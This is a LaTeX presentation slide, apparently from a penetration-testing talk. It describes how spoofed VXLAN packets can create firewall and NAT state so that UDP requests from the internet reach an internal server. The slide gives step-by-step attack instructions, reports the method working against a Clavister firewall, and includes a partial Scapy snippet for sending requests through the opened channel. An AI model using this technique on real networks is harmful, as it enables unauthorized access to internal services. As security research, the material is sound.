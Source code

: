 \documentclass[Screen16to9,17pt,footrule]{foils}
\begin{document}
The source port we used in the inside packet, becomes the destination port in replies - 54040 in example


Plan inject UDP via VXLAN to create firewall state, will allow\\
reverse UDP requests coming into internal server

\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s): internal packet src 10.0.0.10 UDP sport 53
\item Destination for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination of the firewall
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap, packet switched to firewall, come from inside
\item Firewall forwards, creates state, NATs
\item Attacker waiting for the UDP probe, notice NAT source IP+port
\item Attacker across regular internet send UDP request to NAT IP+port
\item Request match state, and is forwarded to internal server on 10.0.0.10
\end{enumerate}

Tested working with Clavister with DNS UDP probes/requests, weak/no DNS inspection \smiley
\vskip 5mm
\centerline{May allow acess to all UDP services? Need more testing}


Send/receive UDP probe, do another request through the open channel
\begin{alltt}\footnotesize
...
print "After fork and things"
#print data.summary()
data[0].show()

# Dissecting the packet
ip=data[0].getlayer(IP)
udp=data[0].getlayer(UDP)

# Try sending request back through - now open - channel
# Dont forget to reverse the src/dst and ports
packet=Ether(dst=routermac)/IP(src=attacker,dst=ip.src)/
    UDP(sport=udp.dport,dport=udp.sport)/DNS(rd=1,qd=DNSQR(qname="localhost"))
sendp(packet,loop=0)
...
\end{alltt}
\end{document}
